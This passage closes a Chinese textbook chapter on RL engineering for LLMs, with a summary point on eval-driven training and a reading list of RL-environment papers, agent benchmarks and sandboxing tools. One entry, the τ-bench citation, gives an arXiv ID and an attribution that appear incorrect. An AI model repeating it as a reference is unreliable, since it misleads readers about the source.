8. **训练-评估循环**——Eval-driven training、增量评测、污染检测、Pareto checkpoint 选择，是工业级 RL 工程的标配

下一章 [第 24 章](../construction) 我们转向 VLM-RL——当观察从文本变成图像/视频，奖励信号如何设计、训练如何扩展。

## 延伸阅读

- [Pash 2025 "Evals = RL Environments"](https://blog.evalworkshop.com/)
- [Anthropic 2025.11 "Effective Harnesses"](https://www.anthropic.com/engineering/effective-harnesses)
- [Mechanize: RL Environments for All Digital Work](https://mechanize.dev/)
- [AReaL: Asynchronous RL for LLMs (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298)
- [AgentRL:大规模异步 agentic RL (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206)
- [CyberGym: CTF 训练环境 (arXiv:2506.02548)](https://arxiv.org/abs/2506.02548)
- [Vending-Bench: 长程 benchmark (arXiv:2502.15840)](https://arxiv.org/abs/2502.15840)
- [τ-bench: Salesforce agent benchmark (arXiv:2404.44581)](https://arxiv.org/abs/2404.44581)
- [SWE-Gym: SWE-bench 训练版 (arXiv:2412.21139)](https://arxiv.org/abs/2412.21139)
- [BFCL: Berkeley Function Calling Leaderboard (arXiv:2407.13636)](https://arxiv.org/abs/2407.13636)
- [WebArena (arXiv:2307.13854)](https://arxiv.org/abs/2307.13854)
- [BrowseComp (OpenAI 2025)](https://openai.com/index/browsecomp/)
- [Firecracker microVM](https://firecracker-microvm.github.io/)
- [gVisor 沙箱](https://gvisor.dev/)
